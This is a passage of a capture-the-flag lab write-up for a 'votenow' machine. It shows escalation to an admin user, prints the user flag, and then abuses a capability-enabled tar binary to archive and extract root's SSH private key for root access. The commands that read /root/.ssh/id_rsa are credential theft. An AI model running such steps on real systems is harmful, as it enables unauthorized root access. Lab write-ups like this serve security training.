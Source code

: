 **Success**: Escalated to `admin` user.

### User Flag

```bash
[admin@votenow ~]$ ls
notes.txt  user.txt
[admin@votenow ~]$ cat user.txt 
663ba6a402a57536772c6118e8181570
[admin@votenow ~]$ cat notes.txt 
Reminders:

1) Utilise new commands to backup and compress sensitive files
```

**Hint**: Reference to backup and compression commands.

## Privilege Escalation

### Capabilities Enumeration

![Capabilities Discovery](images/Pasted%20image%2020251012154857.png)

**Critical Finding**: `/usr/bin/tarS` binary with special capabilities allowing arbitrary file compression.

### SSH Key Extraction

**Compress root SSH key**:

```bash
tarS -cvf id_rsa.tar /root/.ssh/id_rsa
```

**Extract archive**:

```bash
tar -xf id_rsa.tar 
cd root/.ssh
```

### Root Access

**SSH Connection**:
